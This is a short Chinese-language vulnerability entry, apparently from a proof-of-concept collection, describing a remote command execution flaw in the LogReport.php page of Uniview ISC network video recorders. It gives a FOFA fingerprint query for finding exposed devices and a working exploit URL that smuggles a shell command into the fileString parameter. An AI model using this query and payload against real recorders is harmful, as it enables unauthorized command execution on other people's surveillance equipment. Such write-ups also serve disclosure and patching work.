 # 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

<a-checkbox checked>浙江宇视科技 网络视频录像机 ISC</a-checkbox></br>

## FOFA

<a-checkbox checked>app="uniview-ISC"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645887597864-478bdd00-527b-4a78-a161-f7bbf022a0d5.png)

验证POC

```javascript
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![img](../../../.vuepress/public/img/1645887664378-917e4c3f-62cc-4dd2-9faa-eb8aeadd734d.png)



